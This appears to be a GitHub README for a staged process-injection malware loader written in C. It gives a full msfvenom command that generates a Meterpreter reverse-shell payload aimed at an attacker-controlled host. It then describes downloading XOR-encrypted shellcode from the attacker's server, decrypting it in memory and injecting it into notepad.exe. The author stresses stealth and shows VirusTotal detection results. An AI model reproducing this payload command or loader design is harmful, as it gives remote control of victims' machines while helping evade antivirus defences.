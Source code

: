 # Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

-Generatad payload with msfvenom
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

-Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to HTTP server

-The malware connects to the attacker's HTTP server and downloads the encrypted shellcode "enc_code.bin".

-The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

-It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

-Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

-The malware then injects the decrypted shellcode into the target process.


### EXECUTION

-I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)


### VirusTotal Analysis

![image](https://github.com/user-attachments/assets/dd34426d-d677-40fb-9864-1f6025d225e7)

